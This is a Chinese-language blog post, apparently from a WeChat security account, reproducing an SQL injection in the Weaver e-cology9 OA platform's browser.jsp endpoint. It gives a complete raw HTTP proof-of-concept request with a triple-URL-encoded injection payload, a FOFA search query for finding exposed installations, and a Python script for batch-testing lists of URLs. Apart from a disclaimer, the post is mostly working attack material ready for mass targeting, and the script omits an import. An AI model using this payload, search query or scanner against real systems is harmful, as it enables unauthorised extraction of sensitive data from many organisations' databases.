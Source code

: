 #  泛微E-cology9 browserjsp SQL注入漏洞复现 [附POC]   
原创 ChinaRan404  知攻善防实验室   2023-11-25 10:27  
  
关注本公众号 ，长期推送漏洞文章  
  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用！！！  
  
漏洞简述  
  
泛微协同管理应用平台e-cology是一套兼具企业信息门户、知识文档管理、工作流程管理、人力资源管理、客户关系管理、项目管理、财务管理、资产管理、供应链管理、数据中心功能的企业大型协同管理平台。  
  
泛微协同管理应用平台（e-cology）包括八大模块：知识文档管理（e-Document），人力资源管理（e-HRM），客户关系管理（e-CRM），项目管理（e-Project），资产管理e-Logistics），财务管理（e-Financials），工作流程管理（e-Workflow），数据中心管理（e-Datacenter）。八个模块像人体的各个功能器官，协同为企业的日常运作提供强劲动力。  
  
由于e-cology OA对用户输入内容的验证存在缺陷。未经身份验证的远程攻击者通过向目标系统发送特制的字符串，最终可实现获取目标数据库中的敏感信息。（SQL注入）  
  
影响版本：  
  
泛微e-cology V9<10.56  
  
漏洞POC  
```
POST /mobile/%20/plugin/browser.jsp HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 649

isDis=1&browserTypeId=269&keyword=%25%32%35%25%33%36%25%33%31%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%36%32%25%32%35%25%33%32%25%33%38%25%32%35%25%33%35%25%33%33%25%32%35%25%33%34%25%33%35%25%32%35%25%33%34%25%36%33%25%32%35%25%33%34%25%33%35%25%32%35%25%33%34%25%33%33%25%32%35%25%33%35%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%30%25%32%35%25%33%34%25%33%30%25%32%35%25%33%35%25%33%36%25%32%35%25%33%34%25%33%35%25%32%35%25%33%35%25%33%32%25%32%35%25%33%35%25%33%33%25%32%35%25%33%34%25%33%39%25%32%35%25%33%34%25%36%36%25%32%35%25%33%34%25%36%35%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%36%32%25%32%35%25%33%32%25%33%37
```  
  
  
payload需要经过三次url编码，文末附tamper脚本地址  
  
资产  
  
fofa:app="泛微-协同商务系统"  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/H7ec9FOh7volPEy9OHJpYeezaF37lrVAKCSqta88Xfh6DHtyIFAGjWaQktI3Kc87TehIo3NX987le6F0y6jiamQ/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现  
  
使用yakit或burp进行抓包改包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/H7ec9FOh7volPEy9OHJpYeezaF37lrVAOBggSibR2ZQ7QVtZcJSpIruv7SXSwC3QZdDOFYdmDVMXD5R8xQgW7dg/640?wx_fmt=png&from=appmsg "")  
  
  
批量验证脚本：  
```
import requests
from termcolor import colored
import signal

# Disable SSL certificate verification
requests.packages.urllib3.disable_warnings()

output_file = None  # 全局变量


def check_url(url, output=None):
    headers = {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    }
    proxies = {
        'http': 'http://127.0.0.1:8080',
        'https': 'http://127.0.0.1:8080'
    }

    data = {
        "isDis": "1",
        "browserTypeId": "269",
        "keyword": "%25%32%35%25%33%36%25%33%31%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%36%32%25%32%35%25%33%32%25%33%38%25%32%35%25%33%35%25%33%33%25%32%35%25%33%34%25%33%35%25%32%35%25%33%34%25%36%33%25%32%35%25%33%34%25%33%35%25%32%35%25%33%34%25%33%33%25%32%35%25%33%35%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%30%25%32%35%25%33%34%25%33%30%25%32%35%25%33%35%25%33%36%25%32%35%25%33%34%25%33%35%25%32%35%25%33%35%25%33%32%25%32%35%25%33%35%25%33%33%25%32%35%25%33%34%25%33%39%25%32%35%25%33%34%25%36%36%25%32%35%25%33%34%25%36%35%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%36%32%25%32%35%25%33%32%25%33%37"
    }

    try:
        modified_url = url + '/mobile/%20/plugin/browser.jsp'
        response = requests.post(modified_url, data=data, headers=headers, verify=False, timeout=3)
        content = response.text

        if "show2" in content:
            result = colored(url + " 存在", 'red')

            if output:
                with open(output, 'a') as file:  # 以追加模式打开文件
                    file.write(url + '\n')

            print(result)  # 即时打印结果
        else:
            result = url + " 不存在"
            print(result)  # 即时打印结果

    except requests.exceptions.RequestException as e:
        pass  # 不进行任何操作，直接请求下一个URL


def check_urls_from_file(filename, output=None):
    with open(filename, 'r') as file:
        url_list = file.read().strip().split('\n')

    for url in url_list:
        check_url(url, output)

        # 捕获中断信号
        signal.signal(signal.SIGINT, handle_interrupt)


def handle_interrupt(signum, frame):
    global output_file

    # 在捕获中断时保存当前扫描结果，并关闭文件
    if output_file:
        output_file.close()

    print("\n扫描已中断并保存当前结果。")
    exit()


def main():
    global output_file

    parser = argparse.ArgumentParser(description='CNVD-2023-12632检测POC')
    parser.add_argument('-u', '--url', help='检测单个URL')
    parser.add_argument('-r', '--file', help='从文本中批量检测URL')
    parser.add_argument('-o', '--output', help='将检测到的输出到文本中')
    args = parser.parse_args()

    if args.output:
        output_file = open(args.output, 'a')  # 以追加模式打开输出文件

    if args.url:
        check_url(args.url, args.output)
    elif args.file:
        check_urls_from_file(args.file, args.output)
    else:
        parser.print_help()

    # 注册捕获中断信号的处理程序
    signal.signal(signal.SIGINT, handle_interrupt)

    # 关闭输出文件
    if output_file:
        output_file.close()

```  
  
公众号后台回复‘‘1103’’获取漏洞验证脚本和sqlmap-tamper脚本。  
  
  
